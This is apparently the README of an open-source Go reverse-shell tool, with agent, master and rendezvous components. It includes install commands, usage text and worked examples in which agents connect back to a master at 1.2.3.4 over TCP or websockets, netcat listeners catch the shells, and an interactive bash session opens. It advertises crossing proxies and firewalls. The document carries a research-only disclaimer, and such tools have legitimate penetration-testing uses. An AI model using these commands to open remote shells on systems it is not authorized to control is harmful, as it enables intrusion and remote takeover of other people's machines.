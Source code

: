 **Disclaimer: This project is for research purposes only, and should only be used on authorized systems.**

## Introduction
"A reverse shell is a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using, code or command execution is achieved." ([source](http://resources.infosecinstitute.com/icmp-reverse-shell/))

A reverse shell is also really useful when you're playing with your SSH server and want to have a backup plan
in case of misconfiguration.

Of course the simplest and most portable way is to use [Netcat](http://nc110.sourceforge.net/).

Here is a some features of this Go implementation:
* good portability
* can cross most proxies and firewalls with default configuration (using websockets, on https, on standard ports)
* auto-reconnection
* supports having multiple shells running on a single agent

This projects contains 3 applications that help you setting and interacting with remote shells:
* an `agent` to be started on the server where you want to open a shell
* a `master` waiting for agent connections and that allow you to interact with the shells
* a `rendezvous` application providing a central point where agents and masters meet when a direct connection is not possible/wanted (not mandatory)

## Installation
Download the binaries
```bash
curl -O -L -s /dev/null https://github.com/maxlaverse/reverse-shell/releases/download/v0.0.1/reverse-shell-0.0.1-linux-amd64.tar.gz | tar xvz
```

Or build from source
```bash
$ git clone https://github.com/maxlaverse/reverse-shell
$ cd reverse-shell && make
```

## Agent
```bash
Starts an agent listening for remote commands. The Agent can receive remote commands is various ways.

Usage:
  reverse-shell-agent [command]

Available Commands:
  help        Help about any command
  stdin       Agent that listens for command on stdin
  tcp         Agent that connects to a remove tcp endpoints and listen for commands
  tcpdirect   Agent that listens for commands on a local port
  websocket   Agent that connects to a websocket endpoints and wait for commands

Flags:
  -h, --help          help for reverse-shell-agent
  -v, --verbose int   Be verbose on log output

Use "reverse-shell-agent [command] --help" for more information about a command.
```

### stdin
Absolutely useless. It's basically just piping *stdin* to a process on the same machine.
```bash
Usage:
  agent [OPTIONS] stdin
```

### tcp
Connect to a remote host and execute every command received from it.
```bash
Usage:
  agent [OPTIONS] tcp [tcp-OPTIONS]

[tcp command options]
      -A, --address= Address [$ADDRESS]
```

Use the `listen` master command on a remote host to wait for connection:
```bash
# On the master (1.2.3.4)
$ nc -v -l -p 7777

# On the target
$ agent tcp -A 1.2.3.4:7777
```

### tcpdirect
Listen to a tcp port and execute every command received by a master.
```bash
Usage:
  agent [OPTIONS] tcpdirect [tcp-OPTIONS]

  [tcpdirect command options]
        -P, --port= Port [$PORT]
```

You can connect to it using netcat:
```bash
# On the agent (1.2.3.4)
$ agent tcpdirect -P 7777

# On the master
$ nc 1.2.3.4 7777
```

### websocket
Connect to a remote websocket and execute every command received.
The remote host can be a `master` or a `rendezvous`.
```bash
Usage:
  agent [OPTIONS] websocket [websocket-OPTIONS]

[websocket command options]
      -U, --url=  Url of the rendez-vous point. [$URL]
```

```bash
# On the master (1.2.3.4)
$ master listen -P 7777

# On the agent
$ agent websocket -U http://1.2.3.4:7777
```

Once an agent connects, you will be able to write commands in *stdin* that will be directly executed on the agent. You can also connect to a `rendezvous` point instead of a master.

You can also connect to the outside using a proxy:
```bash
$ http_proxy=http://your-proxy:3128 https_proxy=http://your-proxy:3128 agent websocket -U http://1.2.3.4:7777
```

## Rendez-vous
The `rendezvous` is an http server listening for `agents` and `masters`.
It can run behind a reverse-proxy and that reverse-proxy could to SSL offloading.

```bash
Usage:
  rendezvous [OPTIONS]

Application Options:
  -P, --port= Port [$PORT]
```

Start the `rendezvous` and the `agent`:
```bash
# On the rendezvous (1.2.3.4)
$ rendezvous -P 7777

# On the agent (3.4.5.6)
$ agent websocket -U http://1.2.3.4:7777
```

Open a shell and send some commands
```bash
# List the agents
$ ./master list-agents -U http://1.2.3.4:7777
List of agents:
* 3.4.5.6:65000

# Create a session
$ master create -U http://1.2.3.4:7777 3.4.5.6:65000
Attaching to admiring_meitn
Connected to admiring_meitn
bash-3.2$
```

# Master
```bash
Usage:
  master [OPTIONS] <command>

Help Options:
  -h, --help  Show this help message

Available commands:
  attach         attach to an existing session
  create         create a new session on a given agent
  list-agents    list all the agents available on a rendez-vous
  list-sessions  list all the sessions available on a rendez-vous
  listen         listen for agents to connect using websocket
```

## Todo
* add scp-like commands
* improve logging messages
* read variables from environment
* have agent send its IP  and rendez vous showing the proxy client one

